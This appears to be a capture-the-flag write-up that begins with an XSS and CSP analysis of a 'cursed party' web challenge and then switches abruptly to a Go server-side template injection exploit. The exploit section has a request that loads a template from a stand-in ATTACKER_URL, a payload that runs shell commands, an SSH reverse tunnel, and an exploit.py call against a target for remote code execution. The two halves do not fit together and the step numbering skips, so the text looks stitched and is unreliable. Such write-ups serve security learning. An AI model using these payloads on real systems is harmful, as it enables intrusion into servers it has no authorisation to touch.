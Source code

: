 # XSS > CDN 

## website

<img src= "cursed_party_website.PNG">

## Description

Anytime you see "this will be reviewed" "stored for review" Admin will review" | think XSS attack.
NOTE: Docker file installs google chrome, potentials client-side exploit.
After reviewing the source code, we can see that on the admin page. We notice the username field is vulnerable to HTML injection because it is piping the user's input to 'safe' without any sanitization.
We can also see that the flag is inside of the JWT. So we need to get the JWT in order to get the flag. 
After inspecting a request, we also see that a CDN is being used in the Content Security Policy.
We can use csp-evaluator to analyze the failures of this CSP:


## Set Up

1. Burpsuite Repeater/collaborator(Testing): GET requests to /render?use_remote=true&page=https://ATTACKER_URL/test.go.
2. Apache2 server hosting test.go).
3. Setup file with SSTI payload:
   ```go
    {{.FetchServerInfo "cd /;ls -la"}}
5. Tunnel using `ssh -R 80:localhost:80 localhost.run -i /home/$user/.ssh/id_rsa`.

## Exploit

This Python script automates the exploitation of a server-side template injectiony in the web application. It sends a GET request to a specified vulnerable URL, loading and executing our attacker-controlled template on the target server, resulting in remote code execution. 
   ```python
   python exploit.py http://target-server.com http://attacker-server.com/attacker-template.txt
```
## More Information

[SSTI in GO](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md)
